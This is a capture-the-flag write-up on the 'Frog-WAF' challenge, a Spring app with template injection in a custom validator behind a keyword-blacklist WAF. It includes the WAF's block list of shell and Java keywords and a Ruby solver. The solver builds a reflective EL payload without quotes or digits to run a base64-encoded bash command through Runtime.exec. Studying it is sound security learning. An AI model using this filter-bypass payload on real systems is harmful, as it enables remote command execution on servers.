 # Frog-WAF

![challenge](assets/chall.png)
- [dist.zip](assets/dist.zip)

## TL;DR

the challenge is about a Spring application that is vulnerable to SSTI via `buildConstraintViolationWithTemplate` in a custom validator, but with a very strict WAF and no outbound connections from the challenge box.

## Details

looking at the source, the app has an endpoint `/addContact`:
```java
    @PostMapping("/addContact")
    ResponseEntity<String> addContact(HttpSession session, @Valid @RequestBody Contact contact) {
        if (session.getAttribute(CONTACTS) == null) {
            session.setAttribute(CONTACTS, new ArrayList<Contact>());
        }
        val contacts = (ArrayList<Contact>) session.getAttribute(CONTACTS);
        contacts.add(contact);
        return ResponseEntity.ok("contact added");
    }
```
with a `@Valid` annotation for `Contact`, `country` field of `Contact` is validated with a custom validator class:
```java
@Getter
@Setter
@Entity
public class Contact {

    @Id
    @GeneratedValue
    private Long id;

    @NotNull
    @Pattern(regexp = "^[A-Z][a-z]{2,}$")
    private String firstName;

    @NotNull
    @Pattern(regexp = "^[A-Z][a-z]{2,}$")
    private String lastName;

    @NotNull
    @Pattern(regexp = "^[A-Z][a-z]{2,}$")
    private String description;

    @NotNull
    @CheckCountry
    private String country;

}
```
`CheckCountry`:
```java
@Target({FIELD, METHOD, PARAMETER, ANNOTATION_TYPE, TYPE_USE})
@Retention(RUNTIME)
@Constraint(validatedBy = CountryValidator.class)
@Documented
@Repeatable(CheckCountry.List.class)
public @interface CheckCountry {

    String message() default "Invalid country";

    Class<?>[] groups() default {};

    Class<? extends Payload>[] payload() default {};

    @Target({FIELD, METHOD, PARAMETER, ANNOTATION_TYPE})
    @Retention(RUNTIME)
    @Documented
    @interface List {
        CheckCountry[] value();
    }
}
```
it is validatedBy `CountryValidator`:
```java
public class CountryValidator implements ConstraintValidator<CheckCountry, String> {

    @SneakyThrows
    @Override
    public boolean isValid(final String input, final ConstraintValidatorContext constraintContext) {
        if (input == null) {
            return true;
        }

        val v = FrogWaf.getViolationByString(input);
        if (v.isPresent()) {
            val msg = String.format("Malicious input found: %s", v);
            throw new AccessDeniedException(msg);
        }

        val countries = StreamUtils.copyToString(new ClassPathResource("countries").getInputStream(), Charset.defaultCharset()).split("\n");
        val isValid = Arrays.asList(countries).contains(input);

        if (!isValid) {
            val message = String.format("%s is not a valid country", input);
            constraintContext.disableDefaultConstraintViolation();
            constraintContext.buildConstraintViolationWithTemplate(message)
                    .addConstraintViolation();
        }
            return isValid;
    }
}
```

but the field value is checked first using a WAF:

```java
        val v = FrogWaf.getViolationByString(input);
        if (v.isPresent()) {
            val msg = String.format("Malicious input found: %s", v);
            throw new AccessDeniedException(msg);
        }
```

here is the blacklist (our SSTI exploit must not include any of these):
```java
public enum AttackTypes {
    SQLI("\"", "'", "#"),
    XSS(">", "<"),
    OS_INJECTION("bash", "&", "|", ";", "`", "~", "*"),
    CODE_INJECTION("for", "while", "goto", "if"),
    JAVA_INJECTION("Runtime", "class", "java", "Name", "char", "Process", "cmd", "eval", "Char", "true", "false"),
    IDK("+", "-", "/", "*", "%", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9");

    @Getter
    private final String[] attackStrings;

    AttackTypes(String... attackStrings) {
        this.attackStrings = attackStrings;
    }

}
```

the issue mainly are quotes and numbers, so strings must be built using their char points at runtime. looking at the filter you can see that arrays are allowed. 

![array toString](assets/array.png)

Arrays are mainly what my encoder laveraged, for example to get number 5, i would create an array with 5 items then get its size:

![array size](assets/array_size.png)

here is the solver:

```ruby
require 'http'

def gen_s(s)
    a = <<E.strip!
    [].toString().getClass().getMethods()[#{Array.new(22, []).inspect}.size()].invoke([].toString(), [].size()).getClass().getMethods()[#{Array.new(5, []).inspect}.size()].invoke([].toString().getClass().getMethods()[#{Array.new(22, []).inspect}.size()].invoke([].toString(), [].size()), %s.size())
E
    r = []
    s.chars.each do |c|
        r << a % Array.new(c.ord, []).inspect
    end
    sr = ""
    r.each do
        if sr.length.zero?
            sr << _1
            next
        else
            sr << (".concat(%s)" % _1)
        end
    end
    sr
end

cn = gen_s("java.lang.Runtime")
# https://ares-x.com/tools/runtime-exec/
cmd = gen_s("bash -c {echo,Y2F0IC9mbGFnLSoudHh0}|{base64,-d}|{bash,-i}")
bcn = gen_s("java.util.Base64")

exp = <<E.strip!
[].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{cn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null).exec(#{cmd}).getInputStream()
E

r_exp = <<E.strip!
${[].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{bcn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null).getClass().getMethods()[#{Array.new(4, []).inspect}.size()].invoke([].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{bcn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null), #{exp}.readAllBytes())}
E

# url = "http://10.32.119.13:1337/addContact"
url = "http://frog-waf.chals.sekai.team/addContact"

r = HTTP.post(url, json: {"firstName": "test", "lastName": "test", "description": "test", "country": r_exp})
puts r
```

which produces roughly (via reflection):
```java
Base64.getEncoder().encodeToString([].getClass().forName("java.lang.Runtime").getRuntime().exec("bash -c {echo,Y2F0IC9mbGFnLSoudHh0}|{base64,-d}|{bash,-i}").getInputStream().readAllBytes())
```

![solver.rb](assets/solver.png)

flag: `SEKAI{0h_w0w_y0u_r34lly_b34t_fr0g_wAf_c0ngr4ts!!!!}`
